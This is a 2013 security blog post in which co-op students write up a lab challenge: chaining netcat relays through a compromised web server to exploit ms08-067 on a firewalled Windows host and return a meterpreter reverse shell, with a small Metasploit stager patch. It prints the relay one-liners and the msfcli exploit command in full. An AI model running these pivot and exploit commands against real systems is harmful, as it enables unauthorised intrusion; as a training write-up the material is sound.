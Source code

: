 ```yaml
---
id: 1638
title: 'Five Relays and a Patch'
date: '2013-10-14T12:55:51-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://blog.skullsecurity.org/2013/793-revision-v1'
permalink: '/?p=1638'
---
```


Hey all,

We hired a new pair of [co-op students](http://coop.cs.umanitoba.ca) recently. They're both in their last academic terms, and are looking for a good challenge and to learn a lot. So, for a challenge, I set up a scenario that forced them to use a series of netcat relays to compromise a target host and bring a meterpreter session back. Here is what the network looked like:  
![](http://www.skullsecurity.org/blogdata/fiverelays-1.png "Firewall Rules")  
To describe in text:

- They have already compromised a Web server with a non-root account
- The Web server has no egress filtering, but full ingress filtering, and they aren’t allowed to install anything (fortunately, it already had Netcat)
- The target server has both egress and ingress filtering, and is not accessible at all from the Internet, but the Web server can connect to it on 139/445 (which are vulnerable to ms08-067). The target can also connect back to the Web server on any port.

The challenge was to exploit the target server with ms08-067 and bring a meterpreter session back to the attacker server.  
  
I had expected this would require 3-4 netcat relays, but, after helping them to get this working, we ended up with 5 relays for a variety of reasons, plus a minor patch to Metasploit! Maybe we did it the hard way, and maybe we didn’t need all those relays, but it was fun to set up and satisfying to get working.

Anyway, I’ll let them explain what they did!

## Five relays and a patch

The image below shows the various netcat relays we ended up using, in order of execution.

![](/blogdata/fiverelays-2.png "Relays")

The first goal was to find a way to bypass the firewalls. Metasploit was using default ports 445 for outgoing and 4444 for incoming connections, and since we can't connect to either of those ports on the Web Server (WEB), we needed the WEB to establish a connection back to us. Fortunately WEB can connect to TARGET on port 445, and can receive a connection back on any port. Thus 2 netcats are running on the WEB are:

```
 nc HACKER 1234 -vv < pipe4 |  nc TARGET 445 -vv > pipe4
```

This command forwards the traffic coming in on port 1234 from the HACKER to TARGET port 445 (Relay #4).

```
 nc -l -p 4444 -vv < pipe2 | nc HACKER 4442 -vv > pipe2
```

This command listens for the meterpreter session back from TARGET on port 4444 and relays it to HACKER on port 4442 (Relay #2).

Why does WEB connect on arbitrary port 1234 instead of connecting to Metasploit's port 445? Well, Metasploit doesn't listen on that port, it needs to initiate the connection. So we need a netcat relay running on HACKER to listen for connection from Metasploit and connect it with the incoming connection from the WEB (Relay #3):

```
nc -l -p 1234 -vv < pipe3 | nc -l -p 445 > pipe3
```

As you might have noticed the WEB is connecting back on port 4442, not 4444 on which Metasploit is listening (Relay #2). They cannot be connected directly, as WEB will establish connection immediately when it starts and Metasploit will get confused since its waiting on Meterpreter session and fail. So we need a relay listening on port 4442 on the HACKER and connecting it back to Metasploit, right? Well, not that simple.

```
 nc -l -p 4443 -vv < pipe1 | nc -l -p 4442 -vv > pipe1
```

This command will listen for incoming connection from WEB on port 4442 and relay it to port 4443 when that connection is established (Relay #1). This gives Metasploit time to trigger an exploit and we only establish a final connection to Metasploit once it did by running a final command:

```
nc HACKER 4444 -vv < pipe5 | nc HACKER 4443 -vv > pipe
```

This simply establishes a connection to the relay running on the same computer on port 4443 and sends it to Metasploit on port 4444 (Relay #6).

The biggest challenge was getting the timing of the last command right. We needed to activate it after Metasploit starts listening for the reverse\_tcp stager but before it sends stage data. If stage data was sent before the entire link was created,the vulnerability would be exploited, but the stage would fail. In order to get the timing right for the final command, a modification to the *stager.rb* in the *lib/msf/core/payload/* folder was necessary. We added a three-second delay after the vulnerability has been triggered and before the stage data was sent in order to give us time to link the netcat relays together for the connection back.

This is the patch against the Metaploit version on the Backtrack 4 cd (it'll likely fail against the HEAD revision due to a number of changes):

```
Index: stager.rb
===================================================================
--- stager.rb   (revision 8091)
+++ stager.rb   (working copy)
@@ -100,6 +100,9 @@
                                p = (self.stage_prefix || '') + p
                        end

+            print_status("Delaying for three seconds (Start your nc relay).")
+            Kernel.sleep(3)
+
                        print_status("Sending stage (#{p.length} bytes)")

                        # Send the stage
@@ -164,4 +167,5 @@
        #
        attr_accessor :stage_prefix
```

Now that everything should be (theoretically) working, we had to make sure to start netcat relays in the right order to make sure they can establish connections, and we had to wait before executing #6 until #2 received a connection established message. The -vv command is optional for all nc instances except in #2, where they are used to determine when to execute #6. We first start all the listener relays and then start the relays that establish connections. The commands were executed in the order provided

1. This command is run on the HACKER:
```
nc -l -p 4443 -vv < pipe1 | nc -l -p 4442 -vv > pipe1
```

3. This command was run on the WEB:
```
nc -l -p 4444 -vv < pipe2 | nc HACKER 4442 -vv > pipe2
```

5. HACKER:
```
nc -l -p 1234 -vv < pipe3 | nc -l -p 445 > pipe3
```

7. WEB:
```
nc HACKER 1234 -vv < pipe4 | nc TARGET 445 -vv > pipe4
```

9. Now that we have a connection to the target we run an exploit:
```
./msfcli exploit/windows/smb/ms08_067_netapi 
 PAYLOAD=windows/meterpreter/reverse_tcp RHOST=HACKER LHOST=WEB E
```

11. Last command is run on HACKER when Relay #2 displays a detected connection:
```
nc HACKER 4444 -vv < pipe5 | nc HACKER 4443 -vv > pipe
```